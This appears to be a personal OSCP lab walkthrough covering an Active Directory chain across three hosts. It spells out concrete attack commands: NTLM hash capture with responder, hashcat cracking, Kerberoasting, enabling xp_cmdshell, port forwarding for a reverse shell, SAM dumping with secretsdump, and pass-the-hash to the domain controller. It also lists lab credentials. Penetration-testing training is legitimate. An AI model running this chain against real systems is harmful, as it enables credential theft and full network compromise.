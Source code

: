 # 147
## Exploitation
- Add `192.168.x.147 ms01.oscp.exam` to `/etc/host`.
- Then, upon visiting the website at port 8080, one can identify a  form with interesting field called `Url`.
	- Set up `responder` with `responder -I tun0 -A` and fill in the UNC path at `Url` field. Finally, submit the form and `responder` will receive a authentication request along with `Net-NTLMv2` hash of the user `oscp\web_svc`.![[Pasted image 20240217160845.png]]![[Pasted image 20240217162012.png]]
- Run `hashcat -m 5600 web_svc.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force` to retrieve plaintext password as `Diamond1`.![[Pasted image 20240217161322.png]]
- Spray the credential and identifying `web_svc:Diamond1` are valid credential for SSH and FTP.
# 148
## Exploitation
- Kerberoasting the `sql_svc` User and find out the password to be `Dolphin1`. ![[Pasted image 20240217183017.png]]
- User `proxychains impacket-mssqlclient sql_svc:Dolphin1@10.10.116.148 -windows-auth` to obtain a SQL shell. Run the following to enable `RCE` since we are system administrator.
	```mssql
	EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
	```
- Set up remote port-forwarding in order to catch reverse shell.
	```bash
	ssh -v -N -R 10.10.116.147:4080:192.168.45.229:80 web_svc@192.168.226.147
	ssh -v -N -R 10.10.116.147:4443:192.168.45.229:443 web_svc@192.168.226.147
	```
- With reverse shell, find `windows.old` file under the `C:\` directory. From `C:\windows.old\Windows\System32` retrieve `SAM` and `SYSTEM` file.
	- Run `impacket-secretsdump -sam SAM -system SYSTEM LOCAL` to locate `NTLM` hash for `tom_admin`![[Pasted image 20240217184230.png]]
# 146
- Using `tom_admin`'s hash to get a `psexec` shell on `DC`. 